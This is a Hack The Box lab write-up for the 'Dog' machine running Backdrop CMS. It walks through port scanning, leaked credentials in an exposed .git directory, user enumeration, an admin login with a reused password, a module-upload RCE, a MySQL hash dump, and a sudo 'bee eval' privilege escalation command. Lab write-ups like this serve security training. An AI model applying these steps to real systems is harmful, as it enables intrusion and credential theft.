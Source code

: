 # Dog - HTB Write-up

## Initial portscan
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-git: 
|   10.129.70.157:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 22 - SSH

## Port 80 - HTTP
In the portscan, nmap enumerated the default scripts for http, one of them is `http-robots.txt`.

This file contains paths that must not be indexes by crawlers.

```shell
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
```

### /code
In this directory we can find:

```shell
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	authorize.php	2024-03-07 17:02 	7.1K	 
[ ]	cron.php	2024-03-07 17:02 	1.0K	 
[DIR]	includes/	2024-07-08 02:31 	- 	 
[ ]	install.php	2024-03-07 17:02 	1.3K	 
[DIR]	layouts/	2024-07-08 02:31 	- 	 
[DIR]	misc/	2024-07-08 02:31 	- 	 
[DIR]	modules/	2024-07-08 02:31 	- 	 
[DIR]	profiles/	2024-07-08 02:31 	- 	 
[DIR]	scripts/	2024-07-08 02:31 	- 	 
[DIR]	themes/	2024-07-08 02:31 	- 	 
[ ]	update.php	2024-03-07 17:02 	22K	 
Apache/2.4.41 (Ubuntu) Server at 10.129.70.157 Port 80
```

## .git directory

### MySQL root access?
```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```
`root` / `BackDropJ2024DS2024`

### Password salt
```php
$settings['hash_salt'] = 'aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ';`
```

## BackDropScan
Using `https://github.com/FisMatHack/BackDropScan`we can userenum and password spray.

### BackDrop version
❯ python BackDropScan.py --url $url --version
[+] Version: 1.27.1

### User enumeration
```shell
❯ python BackDropScan.py --url $url --userslist /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --userenum
[+] Valid username: john
```

```shell
git/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

### BackDrop: Tiffany user
`tiffany` / `BackDropJ2024DS2024`

With this user, login to admin panel and upload an exploitable module.

`https://www.exploit-db.com/exploits/52021`

Get a revserse shel as `www-data`.

## Lateral movement
Use the password `BackDropJ2024DS2024` to log in as `dogBackDropSystem` user.

Use the previously obtained `root` credential to login into MySQL.

```shell
+-----+-------------------+---------------------------------------------------------+----------------------------+-----------+------------------+------------+------------+------------+------------+--------+----------+----------+---------+----------------------------+------------+
| uid | name              | pass                                                    | mail                       | signature | signature_format | created    | changed    | access     | login      | status | timezone | language | picture | init                       | data       |
+-----+-------------------+---------------------------------------------------------+----------------------------+-----------+------------------+------------+------------+------------+------------+--------+----------+----------
|   0 |                   |                                                         |                            |           | NULL             |          0 |          0 |          0 |          0 |      0 | NULL     |          |       0 |                            | NULL       |
|   1 | jPAdminB          | $S$E7dig1GTaGJnzgAXAtOoPuaTjJ05fo8fH9USc6vO87T./ffdEr/. | jPAdminB@dog.htb           |           | NULL             | 1720548614 | 1720584122 | 1720714603 | 1720584166 |      1 | UTC      |          |       0 | jPAdminB@dog.htb           | 0x623A303B |
|   2 | jobert            | $S$E/F9mVPgX4.dGDeDuKxPdXEONCzSvGpjxUeMALZ2IjBrve9Rcoz1 | jobert@dog.htb             |           | NULL             | 1720584462 | 1720584462 | 1720632982 | 1720632780 |      1 | UTC      |          |       0 | jobert@dog.htb             | NULL       |
|   3 | dogBackDropSystem | $S$EfD1gJoRtn8I5TlqPTuTfHRBFQWL3x6vC5D3Ew9iU4RECrNuPPdD | dogBackDroopSystem@dog.htb |           | NULL             | 1720632880 | 1720632880 | 1723752097 | 1723751569 |      1 | UTC      |          |       0 | dogBackDroopSystem@dog.htb | NULL       |
|   5 | john              | $S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji. | john@dog.htb               |           | NULL             | 1720632910 | 1720632910 |          0 |          0 |      1 | UTC      |          |       0 | john@dog.htb               | NULL       |
|   6 | morris            | $S$E8OFpwBUqy/xCmMXMqFp3vyz1dJBifxgwNRMKktogL7VVk7yuulS | morris@dog.htb             |           | NULL             | 1720632931 | 1720632931 |          0 |          0 |      1 | UTC      |          |       0 | morris@dog.htb             | NULL       |
|   7 | axel              | $S$E/DHqfjBWPDLnkOP5auHhHDxF4U.sAJWiODjaumzxQYME6jeo9qV | axel@dog.htb               |           | NULL             | 1720632952 | 1720632952 |          0 |          0 |      1 | UTC      |          |       0 | axel@dog.htb               | NULL       |
|   8 | rosa              | $S$EsV26QVPbF.s0UndNPeNCxYEP/0z2O.2eLUNdKW/xYhg2.lsEcDT | rosa@dog.htb               |           | NULL             | 1720632982 | 1720632982 |          0 |          0 |      1 | UTC      |          |       0 | rosa@dog.htb               | NULL       |
|  10 | tiffany           | $S$EEAGFzd8HSQ/IzwpqI79aJgRvqZnH4JSKLv2C83wUphw0nuoTY8v | tiffany@dog.htb            |           | NULL             | 1723752136 | 1723752136 | 1741728261 | 1741721008 |      1 | UTC      |          |       0 | tiffany@dog.htb            | NULL       |
+-----+-------------------+---------------------------------------------------------+----------------------------+-----------+------------------+------------+------------+------------+------------+--------+----------+----------+---------+----------------------------+------------+
```

`/etc/passwd`
```shell
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

## Privilege Escalation
Notice by rrunning `sudo -l` that user can run `/usr/local/bin/bee` as root.

The `bee` command is an cmd-like interface for the webapp, it can run `eval` code, so lets take the flag.
`sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('cat /root/root.txt');"`